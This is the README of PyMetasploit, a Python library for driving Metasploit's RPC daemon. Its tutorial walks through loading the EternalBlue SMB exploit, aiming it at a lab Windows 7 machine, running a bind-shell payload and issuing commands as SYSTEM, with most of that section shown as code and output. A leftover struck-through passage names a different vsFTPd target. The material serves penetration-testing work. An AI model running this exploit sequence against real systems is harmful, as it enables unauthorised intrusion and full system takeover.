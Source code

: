 PyMetasploit - a full-fledged msfrpc library for Python
-------------------------------------------------------

PyMetasploit is a full-fledged `msfrpc` library for Python. It is meant to interact with the msfrpcd daemon that comes
with the latest versions of Metasploit. It does NOT interact with the console-based scripts that Metasploit provides
such as msfconsole, msfvenom, etc. Therefore, before you can begin to use this library, you'll need to initialize
`msfrpcd` and optionally (highly recommended) PostgreSQL.

# Requirements

Before we begin, you'll need to install the following components:

* **Metasploit:** https://github.com/rapid7/metasploit-framework
* **PostgreSQL (Optional):** http://www.postgresql.org

Installing PostgreSQL is highly recommended as it will improve response times when querying `msfrpcd` (Metasploit RPC
daemon) for module information.

# Tutorial

## Starting `msfrpcd`

`msfrpcd` accepts the following arguments:

```bash
$ ./msfrpcd -h

   Usage: msfrpcd <options>

   OPTIONS:

       -P <opt>  Specify the password to access msfrpcd
       -S        Disable SSL on the RPC socket
       -U <opt>  Specify the username to access msfrpcd
       -a <opt>  Bind to this IP address
       -f        Run the daemon in the foreground
       -h        Help banner
       -n        Disable database
       -p <opt>  Bind to this port instead of 55553
       -u <opt>  URI for Web server
```

The only parameter that is required to launch `msfrpcd` is the `-P` (password) parameter. This specifies the password
that will be used to authenticate users to the daemon. As of this writing, `msfrpcd` only supports one username/password
combination. However, the same user can log into the daemon multiple times. Unless specified otherwise, the `msfrpcd`
daemon listens on port 55553 on all interfaces (`0.0.0.0:55553`).

For the purposes of this tutorial let's start the `msfrpcd` daemon with a minimal configuration:

```bash
$ ./msfrpcd -P mypassword -n -f -a 127.0.0.1
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] MSGRPC ready at 2014-04-19 23:49:39 -0400.
```

The `-f` parameter tells `msfrpcd` to remain in the foreground and the `-n` parameter disables database support.
Finally, the `-a` parameter tells `msfrcpd` to listen for requests only on the local loopback interface (`127.0.0.1`).

## `MsfRpcClient` - Brief Overview

### Connecting to `msfrpcd`

Let's get started interacting with the Metasploit framework from python:

```python
>>> from metasploit.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('mypassword')
or
>>> client = MsfRpcClient('mypassword', server="127.0.0.1", port="55553", username="msf", ssl=False)
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Let's take a
look at its underbelly:

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins', 'port', 'server', 'sessionid', 'sessions', 'ssl', 'uri', 'verify_ssl']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an Exploit

Just like the Metasploit console, you can retrieve a list of all the modules that are available. Let's take a look at
what exploits are currently loaded:

```python
>>> client.modules.exploits
['hpux/lpd/cleanup_exec', 'dialup/multi/login/manyargs', 'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21', 'aix/local/ibstat_path', ...
'android/fileformat/adobe_reader_pdf_js_interface', 'linux/smtp/haraka']
>>>
```

We can also retrieve a list of `auxiliary`, `encoders`, `nops`, `payloads`, and `post` modules using the same syntax:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Now let's interact with one of the `exploit` modules:

```python
>>> exploit = client.modules.use('exploit', 'windows/smb/ms17_010_eternalblue')
>>>
```

If all is well at this point, you will be able to query the module for various pieces of information such as author,
description, required run-time options, etc. Let's take a look:

```python
>>>  print(exploit.description)

This module is a port of the Equation Group ETERNALBLUE exploit, part of the FuzzBunch toolkit released by Shadow Brokers. There is a buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error where a DWORD is subtracted into a WORD. The kernel pool is groomed so that overflow is well laid-out to overwrite an SMBv1 buffer. Actual RIP hijack is later completed in srvnet!SrvNetWskReceiveComplete. This exploit, like the original may not trigger 100% of the time, and should be run continuously until triggered. It seems like the pool will get hot streaks and need a cool down period before the shells rain in again. The module will attempt to use Anonymous login, by default, to authenticate to perform the exploit. If the user supplies credentials in the SMBUser, SMBPass, and SMBDomain options it will use those instead. On some systems, this module may cause system instability and crashes, such as a BSOD or a reboot. This may be more likely with some payloads.

>>> exploit.authors
[b'Sean Dillon <sean.dillon@risksense.com>', b'Dylan Davis <dylan.davis@risksense.com>', b'Equation Group', b'Shadow Brokers', b'thelightcosine']
>>> exploit.options
dict_keys(['TCP::send_delay', 'EnableContextEncoding', 'MaxExploitAttempts', 'GroomAllocations', 'SSLVerifyMode', 'RPORT', 'DCERPC::fake_bind_multi_append', 'SMBUser', 'DCERPC::smb_pipeio', 'DCERPC::fake_bind_multi_prepend', 'VerifyArch', 'ContextInformationFile', 'DCERPC::ReadTimeout', 'ConnectTimeout', 'GroomDelta', 'DCERPC::fake_bind_multi', 'TCP::max_send_size', 'SSLCipher', 'CHOST', 'RHOST', 'SMBPass', 'Proxies', 'SMBDomain', 'VerifyTarget', 'WfsDelay', 'WORKSPACE', 'DisablePayloadHandler', 'SSLVersion', 'VERBOSE', 'DCERPC::max_frag_size', 'ProcessName', 'CPORT', 'SSL'])
>>> exploit.required # Required options
['MaxExploitAttempts', 'GroomAllocations', 'RPORT', 'VerifyArch', 'DCERPC::ReadTimeout', 'ConnectTimeout', 'GroomDelta', 'RHOST', 'VerifyTarget', 'SSLVersion', 'DCERPC::max_frag_size', 'ProcessName']
```

~~That's all fine and dandy but you're probably really itching to pop a box with this library right now, amiright!? Let's
do it! Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our target. Luckily it's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded in PyMetasploit. Our next step is to specify our target:~~  
The victim is "win7x64 pro sp1". You can also try it on x86 vm - https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

```python
>>> exploit['RHOST'] = '192.168.1.11' # IP of our target host
>>>
```

You can also specify or retrieve other options as well, as long as they're listed in `exploit.options`, using the same
method as shown above. For example, let's get and set the `VERBOSE` option:

```python
>>> exploit['VERBOSE']
False
>>> exploit['VERBOSE'] = True
>>> exploit['VERBOSE']
True
>>>
```

Awesome! So now we're ready to execute our exploit. All we need to do is select a payload:

```python
>>> exploit.payloads
['generic/custom', 'generic/shell_bind_tcp', ...
, 'windows/x64/vncinject/reverse_winhttps']
>>>
```

At this point, this exploit only supports one payload (`generic/shell_bind_tcp`). So let's pop a shell:

```python
>>> exploit.execute(payload='generic/shell_bind_tcp')
{'uuid': 'cyjpfhww', 'job_id': 0}
>>>
```

Excellent! It looks like our exploit ran successfully. How can we tell? The `job_id` key contains a number. If the
module failed to execute for any reason, `job_id` would be `None`. For long running modules, you may want to poll the
job list by checking `client.jobs.list`. Since this is a fairly quick exploit, the job list will most likely be empty
and if we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{'1': {'session_port': 445, 'exploit_uuid': 'cyjpfhww', 'username': 'root', 'type': 'shell', 'desc': 'Command shell', 'via_payload': 'payload/generic/shell_bind_tcp', 'uuid': 'bkttoqtn', 'workspace': 'false', 'routes': '', 'tunnel_peer': '192.168.1.11:4444', 'session_host': '192.168.1.11', 'info': 'Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation.  All rights reserved. C:\\Windows\\system32>', 'tunnel_local': '192.168.1.21:33391', 'target_host': '192.168.1.11', 'via_exploit': 'exploit/windows/smb/ms17_010_eternalblue', 'arch': 'x64'}}
>>>
```

Success! We managed to pop the box! `client.sessions.list` shows us that we have a live session with the same `uuid` as
the one we received when executing the module earlier (`exploit.execute()`). Let's interact with the shell:

```python
>>> shell = client.sessions.session("1")
>>> shell.write('whoami\n')
>>> print(shell.read())
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
>>> # Happy dance!
```

This is just a sample of how powerful PyMetasploit can be. Use your powers wisely, Grasshopper, because with great power
comes great responsibility – unless you are a banker.

# Questions?

Email me at ndouba.at.gmail.com
